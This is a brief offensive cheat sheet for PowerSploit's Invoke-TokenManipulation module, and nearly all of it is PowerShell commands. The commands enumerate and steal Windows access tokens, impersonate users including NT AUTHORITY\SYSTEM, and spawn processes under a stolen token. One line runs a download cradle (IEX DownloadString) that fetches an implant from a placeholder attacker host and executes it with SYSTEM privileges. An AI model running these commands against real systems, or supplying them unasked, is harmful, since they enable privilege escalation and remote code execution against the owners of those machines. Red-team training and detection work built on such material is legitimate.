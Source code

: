 # PowerSploit

## 01 - Invoke-TokenManipulation

TODO: Write more information related to this powersploit module

```
PS C:\> Invoke-TokenManipulation -Enumerate
```

Impersonate current token.

```
PS C:\> Invoke-TokenManipulation -ImpersonateUser -UserName "<domain>\<username>"

PS C:\> Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
```

Enumerate current privileges.

```
PS C:\> Invoke-TokenManipulation -WhoAmI
```

To execute with a new process with arguments after obtaining the new token.

```
PS C:\> Invoke-TokenManipulation -CreateProcess "cmd.exe"

PS C:\> Get-Process wininit | Invoke-TokenManipulation -CreateProcess "powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http[s]://<attacker_IP>/implant.ps1');\"};"
```

Reverting back to the current token.

```
PS C:\> Invoke-TokenManipulation -RevToSelf
```